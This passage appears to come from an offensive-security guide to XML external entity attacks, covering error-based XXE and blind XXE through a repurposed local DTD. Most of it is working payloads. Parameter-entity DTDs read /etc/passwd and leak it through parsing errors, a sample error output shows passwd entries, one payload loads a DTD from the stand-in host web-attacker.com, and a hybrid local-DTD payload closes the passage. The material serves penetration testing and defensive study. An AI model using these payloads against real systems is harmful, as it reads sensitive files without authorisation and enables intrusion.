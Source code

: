 An alternative is to trigger an XML parsing error that contains sensitive data which is useful if the app returns the resulting error message within its response. To trigger an XML parsing error containing `/etc/passwd`, try the following for an external DTD:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

- It defines an XML parameter entity containing the contents of `passwd`
- It defines an XML parameter entity containing dynamic declaration of another XML parameter entity which is evaluated by loading a nonexistent file with the name containing the value of the `file` entity.
- Uses the `eval` entity to cause dynamic declaration of the `error` entity to be performed.
- Uses the `error` entity so the value is evaluated by attempting to load the nonexistent file, resulting in an error containing the name of the nonexistent file which is the contents.

After invoking it, it may produce an error such as:

```json
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

To invoke it, use an XXE payload such as:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```
# Blind XXE via Repurposed Local DTD

Previous payloads won't work with an internal DTD fully specified in the DOCTYPE element as it involves using an XML parameter entity within the definition of another parameter entity which is not permitted in internal DTDs.

If so, try to trigger error messages containing sensitive data. If a document's DTD uses a hybrid of internal and external DTD declarations, the internal DTD can redefine entities declared in the external DTD meaning an attacker can employ error-based XXE, provided the XML parameter entity used is redefining an entity declared within an external DTD.

If OAST connections are blocked, then the external DTD cannot be loaded from a remote location but must be an external DTD file that happens to exist on the local file system and repurpose it to redefine an existing entity that triggers a parsing error.

If there's a DTD such as `/usr/local/app/schema.dtd` and it defines an entity of `custom`, try triggering an XML parsing error by submitting a hybrid DTD such as:

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
